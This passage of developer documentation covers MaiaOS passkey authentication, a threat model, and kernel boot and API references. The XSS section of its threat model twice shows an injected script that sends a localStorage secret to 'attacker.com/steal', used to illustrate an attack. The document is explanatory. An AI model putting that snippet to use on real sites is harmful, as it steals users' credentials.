└─────────────────────────────────────────┘
              ↓ accountHeaderForInitialAgentSecret() + idforHeader()
┌─────────────────────────────────────────┐
│ Layer 4: AccountID (DETERMINISTIC!)     │
│ Format: "co_z..."                       │
│ Storage: Public (can be stored)         │
└─────────────────────────────────────────┘
```

**Key Insight:** AccountID is deterministic! Same passkey + salt → same accountID (always!)

### Storage Architecture

```
┌─────────────────────────────────────────┐
│ Passkey (Hardware-Backed)               │
│ Storage: Secure Enclave / TPM            │
│ Content: Private key (never leaves HW)  │
│ Access: Biometric/PIN required           │
└─────────────────────────────────────────┘
              ↓
┌─────────────────────────────────────────┐
│ IndexedDB (Local Cache)                  │
│ Storage: Browser IndexedDB               │
│ Content: CoValue data (encrypted)        │
│ Purpose: Fast offline access             │
└─────────────────────────────────────────┘
              ↓
┌─────────────────────────────────────────┐
│ Jazz Cloud (Cross-Device Sync)          │
│ Storage: Jazz Cloud server               │
│ Content: CoValue data (end-to-end enc)   │
│ Purpose: Sync across devices             │
└─────────────────────────────────────────┘
```

**Zero Browser Storage:**
- ❌ NO secrets in localStorage
- ❌ NO secrets in sessionStorage
- ❌ NO secrets in IndexedDB (only encrypted CoValue data)
- ✅ Everything derived on-demand from passkey

---

## Documentation Structure

This package documentation is organized into focused topics:

- **[security-analysis.md](./security-analysis.md)** - Overall security analysis and threat model
- **[auth-flows.md](./auth-flows.md)** - Registration and login flows
- **[cryptography.md](./cryptography.md)** - Bottom-up cryptography concepts
- **[api-reference.md](./api-reference.md)** - Complete API reference

---

## Quick Start

### Sign Up (Create New Account)

```javascript
import { signUpWithPasskey } from '@MaiaOS/self';

const { accountID, agentSecret, node, account } = await signUpWithPasskey({
  name: "maia",
  salt: "maia.city"
});

// accountID: "co_z..." (public identifier)
// agentSecret: Ephemeral (never store!)
// node: LocalNode instance (active session)
```

### Sign In (Use Existing Passkey)

```javascript
import { signInWithPasskey } from '@MaiaOS/self';

const { accountID, agentSecret, node, account } = await signInWithPasskey({
  salt: "maia.city"
});

// ⚡ Only 1 biometric prompt!
// Everything computed deterministically from passkey
```

---

## Key Concepts

### Hardware-Backed Secrets

**What it means:**
- PRF evaluation happens in Secure Enclave/TPM (hardware chip)
- Secrets never computed in JavaScript
- Cannot be extracted by XSS attacks or malware

**Why it matters:**
- Even if your browser is compromised, secrets are safe
- Hardware isolation provides stronger security than software-only solutions

### Deterministic Account Recovery

**What it means:**
- Same passkey + same salt → always same accountID
- No random fields in account headers (createdAt: null, uniqueness: null)
- AccountID computed before account creation

**Why it matters:**
- Cross-device recovery without server-side account storage
- No "forgot password" flow needed
- User controls their identity (self-sovereign)

### Zero Browser Storage

**What it means:**
- No secrets stored in localStorage, sessionStorage, or IndexedDB
- All secrets derived on-demand from passkey
- Only public data (accountID) can be stored

**Why it matters:**
- XSS attacks cannot steal secrets (nothing to steal!)
- Device theft mitigated (requires biometric)
- No localStorage compromise risk

---

## Browser Support

### ✅ Supported

- Chrome on macOS, Linux, Windows 11
- Safari on macOS 13+, iOS 16+

### ❌ NOT Supported

- Firefox (all platforms)
- Windows 10 (any browser)
- Old browsers

**The package will throw an error on unsupported browsers with instructions.**

---

## Related Documentation

- [maia-kernel Package](../02_maia-kernel/README.md) - Boot process and orchestration
- [Security Improvements](../architecture/security-improvements.md) - Security analysis
- [Auth Secrets](../architecture/auth-secrets.md) - Secret hierarchy details
- [CoJSON Integration](../architecture/cojson.md) - Database layer

---

## Source Files

**Package:** `libs/maia-self/`

**Key Files:**
- `src/index.js` - Public API exports
- `src/self.js` - Sign up & sign in logic
- `src/prf-evaluator.js` - WebAuthn PRF interface
- `src/feature-detection.js` - PRF support detection
- `src/storage.js` - IndexedDB helper (for CoValue data)
- `src/utils.js` - Encoding/validation utilities

**Dependencies:**
- `cojson` - Core CRDT library
- `cojson-storage-indexeddb` - IndexedDB storage
- `cojson-transport-ws` - WebSocket transport for Jazz Cloud

---

# MAIA SELF/SECURITY ANALYSIS

*Source: developers/01_maia-self/security-analysis.md*

# Security Analysis

Comprehensive security analysis of `@MaiaOS/self` authentication system.

---

## Overview

`@MaiaOS/self` provides hardware-backed, zero-storage authentication that is **more secure** than traditional password-based systems and browser extension password managers.

**Key Security Properties:**
- ✅ **Hardware-backed secrets** - PRF evaluation in Secure Enclave/TPM
- ✅ **Zero browser storage** - No secrets in localStorage/sessionStorage
- ✅ **XSS-proof** - No secrets accessible to JavaScript
- ✅ **Phishing-resistant** - Domain-bound credentials (WebAuthn)
- ✅ **Keylogger-proof** - No keyboard input (biometric only)

---

## Threat Model

### Attack Vectors

#### 1. XSS (Cross-Site Scripting)

**What is it:** Malicious website injects code to steal secrets.

**Traditional Approach:**
- Secrets stored in localStorage
- XSS attack reads localStorage → full account access

**MaiaOS:**
- ✅ **Zero secrets in browser storage**
- ✅ Secrets derived in Secure Enclave (hardware-isolated)
- ✅ XSS cannot access passkey (requires biometric/PIN)

**Result:** ✅ XSS attack fails (nothing to steal)

---

#### 2. Malicious Browser Extension

**What is it:** Fake or compromised extension spies on you.

**Traditional Approach:**
- Extensions can read other extensions' data
- Malicious extension captures master password
- Full account compromise

**MaiaOS:**
- ✅ **No extension required** - Web app only
- ✅ Malicious extensions cannot access Secure Enclave
- ✅ Hardware isolation protects secrets

**Result:** ✅ Extension attacks mitigated (no extension attack surface)

---

#### 3. Phishing

**What is it:** Fake website tricks you into revealing password.

**Traditional Approach:**
- User enters password on fake site
- Attacker captures password → full access

**MaiaOS:**
- ✅ **No password to phish** - Biometric only
- ✅ Passkeys are domain-bound (only work on real site)
- ✅ Fake site cannot trick biometric sensor

**Result:** ✅ Phishing attack fails (no password to steal)

---

#### 4. Keylogger (Spyware)

**What is it:** Malware records every key you press.

**Traditional Approach:**
- Keylogger captures master password
- Attacker has full account access

**MaiaOS:**
- ✅ **No keyboard input** - Biometric only
- ✅ Keylogger cannot capture fingerprint/face
- ✅ PRF evaluation in hardware (keylogger can't see it)

**Result:** ✅ Keylogger attack fails (no keyboard input)

---

#### 5. Memory Dump Attack

**What is it:** Malware reads computer memory to find secrets.

**Traditional Approach:**
- Decrypted passwords sit in RAM
- Memory dump reveals everything

**MaiaOS:**
- ✅ PRF output sits in RAM **temporarily**
- ✅ Secrets cleared immediately after use
- ✅ Secure Enclave protects PRF evaluation
- ✅ Ephemeral secrets (derived on-demand)

**Result:** ✅ Memory dump mitigated (secrets cleared, hardware-protected)

---

#### 6. Device Theft

**What is it:** Someone steals your device and tries to access your account.

**Traditional Approach:**
- Secrets in localStorage → attacker has access
- Needs master password (but might be weak)

**MaiaOS:**
- ✅ Passkey in Secure Enclave (hardware-isolated)
- ✅ Cannot extract without biometric/PIN
- ✅ Hardware rate-limiting prevents brute force

**Result:** ✅ Device theft mitigated (hardware protection)

---

#### 7. Server Breach

**What is it:** Hackers break into the sync server.

**Traditional Approach:**
- Encrypted vaults stored on server
- Weak master passwords can be cracked
- Future quantum computers might break encryption

**MaiaOS:**
- ✅ **Master secret NEVER stored anywhere**
- ✅ Even if Jazz server is hacked, secrets are in hardware
- ✅ Zero-knowledge sync (server cannot decrypt)

**Result:** ✅ Server breach mitigated (master secret never leaves device)

---

## Security Comparison

### MaiaOS vs Browser Extension Password Manager

| Attack Vector | Browser Extension | MaiaOS | Winner |
|---------------|-------------------|--------|--------|
| XSS | 🟡 Medium | 🟢 Low | 🏆 MaiaOS |
| Malicious Extensions | 🔴 High | 🟢 Low | 🏆 MaiaOS |
| Phishing | 🟡 Medium | 🟢 Low | 🏆 MaiaOS |
| Keylogger | 🔴 High | 🟢 Zero | 🏆 MaiaOS |
| Memory Dump | 🔴 High | 🟢 Low | 🏆 MaiaOS |
| Device Theft | 🟡 Medium | 🟢 Low | 🏆 MaiaOS |
| Server Breach | 🟡 Medium | 🟢 Low | 🏆 MaiaOS |

**Final Score:** MaiaOS wins **7 out of 7** attack vectors! 🎉

---

## Why MaiaOS is More Secure

### 1. Hardware-Backed Secrets

**Traditional:**
- Secrets generated in JavaScript (software)
- Stored in browser storage (software)
- Accessible to any JavaScript code

**MaiaOS:**
- PRF evaluation in Secure Enclave/TPM (hardware)
- Secrets never leave hardware during derivation
- Accessible only with biometric/PIN

**Security Benefit:**
- ✅ Cannot be extracted by XSS attacks
- ✅ Cannot be logged or sent to error tracking
- ✅ Cannot be stolen from memory dumps

---

### 2. Zero Browser Storage

**Traditional:**
- Must store secrets in localStorage/sessionStorage
- Must store accountID for recovery
- Vulnerable to XSS attacks

**MaiaOS:**
- ✅ Zero secrets in JavaScript (hardware only)
- ✅ Zero accountID in browser storage (computed on-demand)
- ✅ Zero metadata (no "isLoggedIn" flags)
- ✅ XSS cannot access passkey (requires biometric/PIN)

**Security Benefit:**
- ✅ XSS attacks cannot steal secrets
- ✅ Cannot be extracted from browser DevTools
- ✅ Cannot be copied to clipboard
- ✅ Cannot be logged by extensions

---

### 3. Deterministic Account Recovery

**Traditional:**
- Random secret → accountID unknown until account created
- Must store accountID to recover account

**MaiaOS:**
- PRF (deterministic) → accountID **computable before creation!**
- Same passkey + salt → always same accountID

**Security Benefit:**
- ✅ Cross-device recovery without server-side account storage
- ✅ No "forgot password" flow needed
- ✅ No password reset vulnerabilities
- ✅ User controls their identity (self-sovereign)

---

### 4. No Extension Attack Surface

**Traditional:**
- Extension runs in browser
- Malicious extensions can spy
- Extension vulnerabilities

**MaiaOS:**
- ✅ No extension = no extension vulnerabilities
- ✅ Malicious extensions cannot spy on you
- ✅ One less thing to attack

---

## Security Properties

### What We Achieve

#### 1. Hardware-Backed Secrets (Secure Enclave/TPM)

```javascript
// PRF evaluation happens in hardware!
const { prfOutput } = await createPasskeyWithPRF({
  name: "maia",
  userId: randomBytes(32),
  salt: stringToUint8Array("maia.city")
});

// prfOutput NEVER computed in JavaScript
// Evaluation isolated in Secure Enclave/TPM
// Requires biometric/PIN for every access
```

**Security benefit:**
- ✅ Secrets never in JavaScript memory (hardware-isolated)
- ✅ Cannot be extracted by XSS attacks
- ✅ Cannot be logged or sent to error tracking
- ✅ Cannot be stolen from memory dumps

---

#### 2. Zero Browser Storage (XSS-Proof)

```javascript
// NO secrets in localStorage
localStorage.getItem('accountSecret'); // → null

// NO secrets in sessionStorage
sessionStorage.getItem('accountSecret'); // → null

// NO secrets in IndexedDB (only public CoValue data)
// NO secrets in cookies
// NO secrets anywhere in browser!
```

**Security benefit:**
- ✅ XSS attacks cannot steal secrets
- ✅ Cannot be extracted from browser DevTools
- ✅ Cannot be copied to clipboard
- ✅ Cannot be logged by extensions

---

#### 3. Deterministic Account Recovery

```javascript
// Same passkey + same salt → ALWAYS same account
const passkey1 = await signUpWithPasskey({ name: "alice", salt: "maia.city" });
// → accountID: "co_zABC..."

// Later, on different device with same passkey:
const passkey2 = await signInWithPasskey({ salt: "maia.city" });
// → accountID: "co_zABC..." (SAME!)

// This is deterministic because:
// 1. PRF(passkey, salt) → always same prfOutput
// 2. prfOutput → always same agentSecret
// 3. agentSecret → always same accountID (no random fields!)
```

**Security benefit:**
- ✅ Cross-device recovery without server-side account storage
- ✅ No "forgot password" flow needed
- ✅ No password reset vulnerabilities
- ✅ User controls their identity (self-sovereign)

---

#### 4. End-to-End Encryption (Jazz Cloud Cannot Read)

```javascript
// All CoValue data is encrypted with keys only you control
const node = await LocalNode.withNewlyCreatedAccount({
  crypto,
  initialAgentSecret: agentSecret, // Only you have this!
  peers: [jazzSyncPeer],           // Jazz Cloud sync
  storage: indexedDBStorage
});

// Jazz Cloud stores encrypted transactions
// Server cannot decrypt content
// Only devices with your agentSecret can read data
```

**Security benefit:**
- ✅ Zero-knowledge sync (server cannot read your data)
- ✅ No "data breach" risk (server has encrypted blobs only)
- ✅ No trust required in sync provider
- ✅ You control encryption keys (not the server)

---

## Attack Surface Analysis

### XSS Attack (Cross-Site Scripting)

**Traditional Approach:**
```javascript
// Attacker injects:
<script>
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: localStorage.getItem('accountSecret') // ❌ Full access!
  });
</script>
```

**MaiaOS:**
```javascript
// Attacker tries:
<script>
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: localStorage.getItem('accountSecret') // → null (not stored!)
  });
</script>

// To access passkey, attacker would need:
// 1. User's biometric (impossible to steal via XSS)
// 2. User's PIN (impossible to steal via XSS)
// 3. Physical access to device (not via XSS)
```

**Result:** ✅ XSS attack fails (no secrets to steal)

---

### Device Theft

**Traditional Approach:**
- Attacker steals device
- Extracts localStorage secrets
- Full account access (no biometric required)

**MaiaOS:**
- Attacker steals device
- Passkey in Secure Enclave (hardware-isolated)
- Cannot extract without biometric/PIN
- Cannot brute-force (hardware rate-limiting)

**Result:** ✅ Device theft mitigated (hardware protection)

---

### Phishing Attack

**Traditional Approach:**
- Attacker creates fake login page
- User enters password
- Attacker captures password → Full access

**MaiaOS:**
- Attacker creates fake login page
- User clicks "Sign in with passkey"
- WebAuthn verifies domain → Passkey only works on real domain
- Attacker cannot capture passkey

**Result:** ✅ Phishing attack fails (domain-bound credentials)

---

## Implementation Requirements

### DO ✅

1. **Always use PRF** (strict mode, no fallbacks)
2. **Never log secrets** to console or error tracking
3. **Use HTTPS only** (passkeys require secure context)
4. **Validate accountID computation** (verify match after creation)
5. **Trust hardware** (let Secure Enclave/TPM do its job)
6. **Default salt: "maia.city"** (consistent for deterministic recovery)

### DON'T ❌

1. **Never store secrets in browser storage** (localStorage, sessionStorage, IndexedDB)
2. **Never store accountID in browser storage** (compute on-demand)
3. **Never create backwards-compatible fallbacks** (PRF or nothing!)
4. **Never bypass biometric/PIN** (hardware protection is our security model)
5. **Never log prfOutput** (treat as master password)
6. **Never send secrets to server** (even encrypted - unnecessary!)

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [auth-flows.md](./auth-flows.md) - Registration and login flows
- [cryptography.md](./cryptography.md) - Bottom-up cryptography concepts
- [api-reference.md](./api-reference.md) - API reference
- [Security Improvements](../architecture/security-improvements.md) - Detailed security analysis

---

# MAIA KERNEL/API REFERENCE

*Source: developers/02_maia-kernel/api-reference.md*

# API Reference

Complete API reference for `@MaiaOS/kernel` package.

---

## `createMaiaOS(options)`

Creates an authenticated MaiaOS instance (identity layer).

**Parameters:**
- `options.node` (required) - LocalNode instance from `signInWithPasskey`
- `options.account` (required) - RawAccount instance from `signInWithPasskey`
- `options.accountID` (optional) - Account ID string
- `options.name` (optional) - Display name

**Returns:** `Promise<Object>` - MaiaOS instance with:
- `id` - Identity object (`{ maiaId, node }`)
- `auth` - Authentication API
- `db` - Database API (future)
- `script` - DSL API (future)
- `inspector()` - Dev tool to inspect account
- `getAllCoValues()` - List all CoValues
- `getCoValueDetail(coId)` - Get CoValue details

**Throws:** If `node` or `account` not provided

**Example:**
```javascript
const { node, account } = await signInWithPasskey({ salt: "maia.city" });
const o = await createMaiaOS({ node, account });

// Inspect your account
const accountData = o.inspector();
console.log("Account data:", accountData);

// List all CoValues
const coValues = o.getAllCoValues();
console.log("CoValues:", coValues);
```

---

## `MaiaOS.boot(config)`

Boots the MaiaOS operating system (execution layer).

**Parameters:**
- `config.modules` (optional, default: `['db', 'core', 'dragdrop', 'interface']`) - Modules to load
- `config.registry` (optional) - Config registry for seeding database
- `config.isDevelopment` (optional) - Development mode flag

**Returns:** `Promise<MaiaOS>` - Booted OS instance

**Example:**
```javascript
const os = await MaiaOS.boot({
  modules: ['db', 'core', 'dragdrop', 'interface'],
  registry: {
    // Your configs here
  }
});
```

---

## `os.createActor(actorPath, container)`

Creates an actor from a `.maia` file.

**Parameters:**
- `actorPath` (string) - Path to actor file or co-id
- `container` (HTMLElement) - DOM container for actor

**Returns:** `Promise<Object>` - Created actor instance

**Example:**
```javascript
const actor = await os.createActor(
  './actors/todo.actor.maia',
  document.getElementById('todo-container')
);
```

---

## `os.loadVibe(vibePath, container)`

Loads a vibe (app manifest) from a file.

**Parameters:**
- `vibePath` (string) - Path to `.vibe.maia` file
- `container` (HTMLElement) - DOM container for root actor

**Returns:** `Promise<{vibe: Object, actor: Object}>` - Vibe metadata and actor

**Example:**
```javascript
const { vibe, actor } = await os.loadVibe(
  './vibes/todos/manifest.vibe.maia',
  document.getElementById('app-container')
);
```

---

## `os.loadVibeFromDatabase(vibeId, container)`

Loads a vibe from the database.

**Parameters:**
- `vibeId` (string) - Vibe ID (e.g., `"@vibe/todos"`)
- `container` (HTMLElement) - DOM container for root actor

**Returns:** `Promise<{vibe: Object, actor: Object}>` - Vibe metadata and actor

**Example:**
```javascript
const { vibe, actor } = await os.loadVibeFromDatabase(
  '@vibe/todos',
  document.getElementById('app-container')
);
```

---

## `os.getActor(actorId)`

Gets an actor by ID.

**Parameters:**
- `actorId` (string) - Actor ID

**Returns:** `Object|null` - Actor instance or null

---

## `os.sendMessage(actorId, message)`

Sends a message to an actor.

**Parameters:**
- `actorId` (string) - Target actor ID
- `message` (Object) - Message object

**Example:**
```javascript
os.sendMessage('actor-123', {
  type: 'click',
  target: 'button-1'
});
```

---

## `os.db(payload)`

Executes a database operation (internal use + `@db` tool).

**Parameters:**
- `payload` (Object) - Operation payload:
  - `op` (string) - Operation type: `'read'`, `'create'`, `'update'`, `'delete'`, `'seed'`
  - Other fields depend on operation type

**Returns:** `Promise<any>` - Operation result (for `read`, returns ReactiveStore)

**Example:**
```javascript
// Read (always returns reactive store)
const store = await os.db({
  op: 'read',
  schema: 'co_zTodos123',  // Schema co-id (co_z...)
  filter: { completed: false }
});

// Store has current value immediately
console.log('Current todos:', store.value);

// Subscribe to updates
const unsubscribe = store.subscribe((todos) => {
  console.log('Todos updated:', todos);
});

// Create
const newTodo = await os.db({
  op: 'create',
  schema: '@schema/todos',
  data: { text: 'Buy milk', completed: false }
});
```

---

## `os.getEngines()`

Gets all engines for debugging.

**Returns:** `Object` - Engine instances:
- `actorEngine` - ActorEngine
- `viewEngine` - ViewEngine
- `styleEngine` - StyleEngine
- `stateEngine` - StateEngine
- `toolEngine` - ToolEngine
- `dbEngine` - DBEngine
- `evaluator` - MaiaScriptEvaluator
- `moduleRegistry` - ModuleRegistry

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [auth-layer.md](./auth-layer.md) - Identity & Authentication layer
- [boot-process.md](./boot-process.md) - Boot process details
- [patterns.md](./patterns.md) - Common patterns

---

# MAIA KERNEL/AUTH LAYER

*Source: developers/02_maia-kernel/auth-layer.md*

# Identity & Authentication Layer

The `createMaiaOS` function provides the identity and authentication layer of MaiaOS.

---

## Overview

**What it is:** Proves who you are and gives you access to your account.

**When to use:** Before booting the OS, you need to authenticate.

---

## Usage

```javascript
import { createMaiaOS } from '@MaiaOS/kernel';
import { signInWithPasskey } from '@MaiaOS/self';

// Step 1: Authenticate (get your ID card)
const { node, account, accountID } = await signInWithPasskey({
  salt: "maia.city"
});

// Step 2: Create MaiaOS instance (prove you're authenticated)
const o = await createMaiaOS({ node, account, accountID });
```

---

## What You Get

After calling `createMaiaOS`, you receive an authenticated MaiaOS instance with:

### `o.id`

Your account identity object containing:
- `maiaId` - Your MaiaID (unique identifier)
- `node` - LocalNode instance for CoJSON operations

### `o.auth`

Authentication management API for:
- Managing authentication state
- Signing in/out
- Account management

### `o.inspector()`

Dev tool to inspect your account data:

```javascript
const accountData = o.inspector();
console.log("Account data:", accountData);
```

### `o.getAllCoValues()`

List all CoValues in your account:

```javascript
const coValues = o.getAllCoValues();
console.log("CoValues:", coValues);
```

### `o.getCoValueDetail(coId)`

Get details about a specific CoValue:

```javascript
const detail = o.getCoValueDetail('co_z...');
console.log("CoValue detail:", detail);
```

---

## API Reference

### `createMaiaOS(options)`

Creates an authenticated MaiaOS instance (identity layer).

**Parameters:**
- `options.node` (required) - LocalNode instance from `signInWithPasskey`
- `options.account` (required) - RawAccount instance from `signInWithPasskey`
- `options.accountID` (optional) - Account ID string
- `options.name` (optional) - Display name

**Returns:** `Promise<Object>` - MaiaOS instance with:
- `id` - Identity object (`{ maiaId, node }`)
- `auth` - Authentication API
- `db` - Database API (future)
- `script` - DSL API (future)
- `inspector()` - Dev tool to inspect account
- `getAllCoValues()` - List all CoValues
- `getCoValueDetail(coId)` - Get CoValue details

**Throws:** If `node` or `account` not provided

**Example:**
```javascript
const { node, account } = await signInWithPasskey({ salt: "maia.city" });
const o = await createMaiaOS({ node, account });

// Inspect your account
const accountData = o.inspector();
console.log("Account data:", accountData);

// List all CoValues
const coValues = o.getAllCoValues();
console.log("CoValues:", coValues);
```

---

## Key Concepts

### Identity vs. Execution

**Identity Layer (`createMaiaOS`):**
- **Purpose:** Prove who you are
- **When:** Before booting
- **What it gives:** Access to your account, CoValues, identity
- **Dependencies:** `@MaiaOS/self` (authentication)

**Execution Layer (`MaiaOS.boot()`):**
- **Purpose:** Run your app
- **When:** After authentication
- **What it gives:** Engines, actors, DSL execution
- **Dependencies:** `@MaiaOS/script`, `@MaiaOS/db`, `@MaiaOS/schemata`

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [boot-process.md](./boot-process.md) - Execution layer
- [api-reference.md](./api-reference.md) - Complete API reference
- [patterns.md](./patterns.md) - Common patterns

---

# MAIA KERNEL/BOOT PROCESS

*Source: developers/02_maia-kernel/boot-process.md*

# Boot Process and Execution Layer

The `MaiaOS.boot()` function initializes the entire MaiaOS operating system with all engines and modules.

---

## Overview

**What it is:** Starts all the engines that run your actors and execute MaiaScript.

**When to use:** After authentication, boot the OS to run your app.

---

## Usage

```javascript
import { MaiaOS } from '@MaiaOS/kernel';

// Boot the operating system
const os = await MaiaOS.boot({
  modules: ['db', 'core', 'dragdrop', 'interface'],
  registry: { /* configs */ }
});

// Now you can:
// - os.createActor() - Create actors
// - os.loadVibe() - Load app manifests
// - os.sendMessage() - Send messages between actors
```

---

## Boot Process Deep Dive

When you call `MaiaOS.boot()`, here's what happens:

```
1. Initialize Database
   └─> Creates IndexedDBBackend
   └─> Creates DBEngine

2. Seed Database (if registry provided)
   └─> Collects schemas from @MaiaOS/schemata
   └─> Validates schemas against meta schema
   └─> Seeds configs, schemas, and tool definitions
   └─> Sets up schema resolver

3. Initialize Engines
   └─> ModuleRegistry (module loader)
   └─> MaiaScriptEvaluator (DSL evaluator)
   └─> ToolEngine (tool executor)
   └─> StateEngine (state machine interpreter)
   └─> StyleEngine (style compiler)
   └─> ViewEngine (view renderer)
   └─> ActorEngine (actor lifecycle)
   └─> SubscriptionEngine (reactive subscriptions)
   └─> DBEngine (database operations)

4. Wire Dependencies
   └─> Pass engines to each other
   └─> Set up circular references
   └─> Store engines in registry

5. Load Modules
   └─> Loads specified modules (db, core, dragdrop, interface)
   └─> Each module registers its tools
   └─> Tools become available for use

6. Return OS Instance
   └─> Ready to create actors and run apps!
```

---

## Engine Initialization Order

Engines are initialized in a specific order due to dependencies:

```
1. ModuleRegistry (no dependencies)
2. MaiaScriptEvaluator (needs ModuleRegistry)
3. ToolEngine (needs ModuleRegistry)
4. StateEngine (needs ToolEngine, Evaluator)
5. StyleEngine (no dependencies)
6. ViewEngine (needs Evaluator, ModuleRegistry)
7. ActorEngine (needs StyleEngine, ViewEngine, ModuleRegistry, ToolEngine, StateEngine)
8. SubscriptionEngine (needs DBEngine, ActorEngine)
```

---

## Module System

Modules are dynamically loaded during boot. Each module:
1. Registers tools with `ToolEngine`
2. Provides module-specific functionality
3. Can access engines via `ModuleRegistry`

**Available Modules:**
- `db` - Database operations (`@db` tool)
- `core` - Core UI utilities (`@core/*` tools)
- `dragdrop` - Drag and drop (`@dragdrop/*` tools)
- `interface` - Interface tools (`@interface/*` tools)

---

## Database Seeding

When you provide a `registry` in boot config:
1. Schemas are collected from `@MaiaOS/schemata`
2. Schemas are validated against meta schema
3. Configs, schemas, and tool definitions are seeded
4. Schema resolver is set up for runtime schema loading

---

## What You Get

After booting, you receive a MaiaOS instance with:

### `os.createActor(actorPath, container)`

Creates an actor from a `.maia` file.

**Parameters:**
- `actorPath` (string) - Path to actor file or co-id
- `container` (HTMLElement) - DOM container for actor

**Returns:** `Promise<Object>` - Created actor instance

### `os.loadVibe(vibePath, container)`

Loads a vibe (app manifest) from a file.

**Parameters:**
- `vibePath` (string) - Path to `.vibe.maia` file
- `container` (HTMLElement) - DOM container for root actor

**Returns:** `Promise<{vibe: Object, actor: Object}>` - Vibe metadata and actor

### `os.loadVibeFromDatabase(vibeId, container)`

Loads a vibe from the database.

**Parameters:**
- `vibeId` (string) - Vibe ID (e.g., `"@vibe/todos"`)
- `container` (HTMLElement) - DOM container for root actor

**Returns:** `Promise<{vibe: Object, actor: Object}>` - Vibe metadata and actor

### `os.getActor(actorId)`

Gets an actor by ID.

**Parameters:**
- `actorId` (string) - Actor ID

**Returns:** `Object|null` - Actor instance or null

### `os.sendMessage(actorId, message)`

Sends a message to an actor.

**Parameters:**
- `actorId` (string) - Target actor ID
- `message` (Object) - Message object

### `os.db(payload)`

Executes a database operation (internal use + `@db` tool).

**Parameters:**
- `payload` (Object) - Operation payload:
  - `op` (string) - Operation type: `'read'`, `'create'`, `'update'`, `'delete'`, `'seed'`
  - Other fields depend on operation type

**Returns:** `Promise<any>` - Operation result

### `os.getEngines()`

Gets all engines for debugging.

**Returns:** `Object` - Engine instances:
- `actorEngine` - ActorEngine
- `viewEngine` - ViewEngine
- `styleEngine` - StyleEngine
- `stateEngine` - StateEngine
- `toolEngine` - ToolEngine
- `dbEngine` - DBEngine
- `evaluator` - MaiaScriptEvaluator
- `moduleRegistry` - ModuleRegistry

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [auth-layer.md](./auth-layer.md) - Identity & Authentication layer
- [api-reference.md](./api-reference.md) - Complete API reference
- [patterns.md](./patterns.md) - Common patterns

---

# MAIA KERNEL/PATTERNS

*Source: developers/02_maia-kernel/patterns.md*

# Common Patterns and Troubleshooting

Common usage patterns and solutions to frequent problems.

---

## Common Patterns

### Pattern 1: Full App Setup

```javascript
import { createMaiaOS, MaiaOS } from '@MaiaOS/kernel';
import { signInWithPasskey } from '@MaiaOS/self';

async function setupApp() {
  // Authenticate
  const { node, account } = await signInWithPasskey({ salt: "maia.city" });
  const o = await createMaiaOS({ node, account });
  
  // Boot OS
  const os = await MaiaOS.boot({
    modules: ['db', 'core', 'dragdrop', 'interface']
  });
  
  // Load app
  const { vibe, actor } = await os.loadVibeFromDatabase(
    '@vibe/todos',
    document.getElementById('app')
  );
  
  return { o, os, vibe, actor };
}
```

---

### Pattern 2: Development Debugging

```javascript
const os = await MaiaOS.boot({ modules: ['db', 'core'] });

// Expose for debugging
window.os = os;
window.engines = os.getEngines();

// Inspect engines
console.log("ActorEngine:", os.getEngines().actorEngine);
console.log("ToolEngine:", os.getEngines().toolEngine);
```

---

### Pattern 3: Custom Module Loading

```javascript
// Load only what you need
const os = await MaiaOS.boot({
  modules: ['db', 'core'] // Skip dragdrop and interface
});
```

---

## Troubleshooting

### Problem: "Node and Account required"

**Solution:** You must call `signInWithPasskey()` first:

```javascript
// ❌ Wrong
const o = await createMaiaOS({});

// ✅ Correct
const { node, account } = await signInWithPasskey({ salt: "maia.city" });
const o = await createMaiaOS({ node, account });
```

---

### Problem: Module not found

**Solution:** Check module name and ensure it exists:

```javascript
// ❌ Wrong
await MaiaOS.boot({ modules: ['nonexistent'] });

// ✅ Correct
await MaiaOS.boot({ modules: ['db', 'core'] });
```

---

### Problem: Schema validation fails during boot

**Solution:** Check your schemas are valid JSON Schema:

```javascript
// Ensure schemas are valid before booting
const validationEngine = new ValidationEngine();
await validationEngine.initialize();
// ... validate schemas
```

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [auth-layer.md](./auth-layer.md) - Identity & Authentication layer
- [boot-process.md](./boot-process.md) - Boot process details
- [api-reference.md](./api-reference.md) - Complete API reference

---

# MAIA KERNEL/README

*Source: developers/02_maia-kernel/README.md*

# maia-kernel: Core System Services

## Overview

The `@MaiaOS/kernel` package provides the foundational services that power MaiaOS. Think of it as the operating system kernel - it doesn't do much on its own, but everything else depends on it.

**What it does:**
- ✅ **Identity & Authentication** - Creates authenticated MaiaOS instances (`createMaiaOS`)
- ✅ **System Boot** - Initializes the entire OS with engines and modules (`MaiaOS.boot()`)
- ✅ **Unified API** - Exposes a single entry point for all MaiaOS functionality

**What it doesn't do:**
- ❌ Execute MaiaScript (that's `@MaiaOS/script`)
- ❌ Store data (that's `@MaiaOS/db`)
- ❌ Validate schemas (that's `@MaiaOS/schemata`)

---

## The Simple Version

Think of `maia-kernel` like the foundation of a house. Before you can build anything, you need:
1. **Identity** - Who are you? (`createMaiaOS` - proves you're authenticated)
2. **System** - What can you do? (`MaiaOS.boot()` - starts all the engines)

**Analogy:**
- `createMaiaOS` = Getting your ID card (proves who you are)
- `MaiaOS.boot()` = Starting your computer (loads all the programs)

---

## Two Layers, One Package

The kernel provides **two distinct layers** that work together:

### Layer 1: Identity & Authentication (`createMaiaOS`)

**What it is:** Proves who you are and gives you access to your account.

**When to use:** Before booting the OS, you need to authenticate.

```javascript
import { createMaiaOS } from '@MaiaOS/kernel';
import { signInWithPasskey } from '@MaiaOS/self';

// Step 1: Authenticate (get your ID card)
const { node, account, accountID } = await signInWithPasskey({
  salt: "maia.city"
});

// Step 2: Create MaiaOS instance (prove you're authenticated)
const o = await createMaiaOS({ node, account, accountID });
```

**What you get:**
- `o.id` - Your account identity (MaiaID)
- `o.auth` - Authentication management API
- `o.inspector()` - Dev tool to inspect your account data
- `o.getAllCoValues()` - List all CoValues in your account
- `o.getCoValueDetail(coId)` - Get details about a specific CoValue

### Layer 2: Actor & DSL Execution (`MaiaOS.boot()`)

**What it is:** Starts all the engines that run your actors and execute MaiaScript.

**When to use:** After authentication, boot the OS to run your app.

```javascript
import { MaiaOS } from '@MaiaOS/kernel';

// Boot the operating system
const os = await MaiaOS.boot({
  modules: ['db', 'core', 'dragdrop', 'interface'],
